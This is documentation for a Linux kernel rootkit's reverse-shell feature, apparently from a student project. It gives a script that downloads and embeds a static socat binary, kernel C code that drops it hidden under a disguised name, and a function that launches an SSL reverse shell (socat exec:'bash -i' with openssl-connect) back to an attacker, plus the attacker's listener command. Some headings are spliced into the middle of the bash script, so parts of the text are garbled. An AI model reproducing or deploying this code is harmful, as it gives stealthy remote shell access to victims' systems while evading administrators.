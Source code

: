 \page reverse Reverse Shell

\tableofcontents

{#reverse-shell-doc}
As part of our project, we implemented a reverse shell using `socat` to establish an SSL-encrypted connection to the attack server. The choice of `socat` is motivated by its ability to provide a complete interactive shell, unlike simpler tools like `netcat` or even simply `bash`.
To ensure the presence of `socat` on the system, we integrated the binary directly into the rootkit, which allows dropping it dynamically when mounting the rootkit. This requires having a static version of `socat` that also embeds SSL, dumping this binary into the rootkit to finally be able to use it to establish the reverse shell.

### Loading socat into the module as payload

## Implementation

To load the `socat` binary into the rootkit, we use a script during module compilation. This script extracts the `socat` binary and converts it into a C character array, which is then integrated into the module's source code.

Uses the statically compiled `socat` binary embedded in the rootkit module.

```bash

generate_socat_h() {## SSL/TLS

  # if socat file does not exist, download it

  if [ ! -f socat ]; thenThe reverse shell connection is encrypted using SSL/TLS for secure communication.

    echo "socat binary not found."

    echo "Download static socat binary from github.com/ernw/static-toolbox"## Usage

    wget https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat

    if [ $? -ne 0 ]; thenLaunch with `getshell [port]` command (default port: 9001).

      echo "Failed to download socat binary."
      exit 1
    fi
    echo "Download complete."
  fi
  echo "Hexdumping socat to socat.h"
  xxd -i socat > include/socat.h
}

# Check if socat.h exists
if [ ! -f ./include/socat.h ]; then
  echo "socat.h not found, generating it..."
  generate_socat_h
else
  echo "socat.h already exists, skipping generation."
fi
```

Following this, we finally obtain a `socat.h` file containing the following code:

```c
unsigned char socat[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
  // ... (rest of socat binary)
};
unsigned long socat_len = 123456; // Length of socat binary
```

### Dropping the binary on target machine

The `socat` binary is dropped on the target machine thanks to the `drop_socat_binaire(void)` function:

```c
int drop_socat_binaire(void) {
    if (is_socat_binaire_dropped()) {
        DBG_MSG("drop_socat_binaire: socat binary already dropped\n");
        return SUCCESS;
    }

    struct file *f;
    loff_t pos = 0;

    f = filp_open(SOCAT_BINARY_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0700);
    if (IS_ERR(f)) {
        ERR_MSG("drop_socat_binaire: failed to open file: %ld\n", PTR_ERR(f));
        return -FAILURE;
    }

    unsigned int written = kernel_write(f, socat, socat_len, &pos);
    if (written < 0) {
        ERR_MSG("drop_socat_binaire: kernel_write failed: %u\n", written);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else if (written < socat_len) {
        ERR_MSG("drop_socat_binaire: only %u bytes written, expected %u\n", written, socat_len);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else {
        DBG_MSG("socat written successfully (%u bytes)\n", written);
    }

    filp_close(f, NULL);

    return SUCCESS;
}
```

This function first checks if the binary has already been dropped, then creates and writes the content of the `socat` array (containing the binary) to the location defined by `SOCAT_BINARY_PATH`. It also handles potential errors during writing and ensures that the entire binary is properly written to disk.

> **Binary obfuscation and discretion**
> By default, the `socat` file dropped on the target machine is renamed with the `.sysd` extension to add a first layer of obfuscation. Moreover, it's placed in the rootkit's hidden directory, making it practically invisible to a regular user or system administrator. This choice aims to limit detection risks of the binary by analysis tools or during manual file system inspection.

### Reverse shell execution

To execute the reverse shell, we use the `launch_reverse_shell(char *args)` function:

```c
int launch_reverse_shell(char *args) {
  if (!is_socat_binaire_dropped()) {
    ERR_MSG("launch_reverse_shell: socat binary not dropped\n");
    return -FAILURE;
  }

  int port = REVERSE_SHELL_PORT; // Default port

  // Get port
  if (args && strlen(args) > 0)
    port = simple_strtol(args, NULL, 10);

  // Build socat command with specified port
  char cmd[256];
  snprintf(cmd, sizeof(cmd), "%s exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:%s:%d,verify=0 &",
          SOCAT_BINARY_PATH, ip, port);

  // Launch command
  int ret_code = exec_str_as_command(cmd, false);

  if (ret_code < 0) {
    ERR_MSG("launch_reverse_shell: failed to start reverse shell on port %d\n", port);
    return ret_code;
  }

  DBG_MSG("launch_reverse_shell: reverse shell started on port %d\n", port);
  return SUCCESS;
}
```

This function first checks that the `socat` binary has been properly dropped. It then retrieves the port to use (default or passed as argument), builds the reverse shell execution command with `socat`, then executes it via `exec_str_as_command`. Errors are handled and a success message is displayed if the shell is launched correctly.

**Explanation of the `socat` command used:**
```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:IP:PORT,verify=0 &
```
This `socat` command establishes an SSL connection to the specified IP and port, while redirecting standard input and output to an interactive `bash` shell. The options used are:
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `exec:bash -i`                | Executes an interactive shell.                                                                   |
| `pty`                         | Allocates a pseudo-terminal for the shell.                                                       |
| `stderr`                      | Redirects errors to standard output.                                                             |
| `setsid`                      | Detaches the process from the terminal.                                                          |
| `sigint`                      | Handles interrupt signals.                                                                       |
| `sane`                        | Resets terminal parameters for standard behavior.                                                |
| `openssl-connect:IP:PORT`     | Establishes SSL connection to specified IP and port.                                             |
| `verify=0`                    | Disables SSL certificate verification (useful for tests, but avoid in production).               |

In summary, this command generates a custom shell allowing maximum interactivity and functionality, while being secured by SSL.

### Connection reception by attacker {#reverse-shell-reception}

To receive the reverse shell connection, the attacker must execute the following command on their server:

```bash
socat openssl-listen:PORT,cert=server.pem,verify=0,fork -
```

Where `PORT` is the port specified when launching the reverse shell on the victim, and `server.pem` is the SSL certificate used for the encrypted connection.

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>
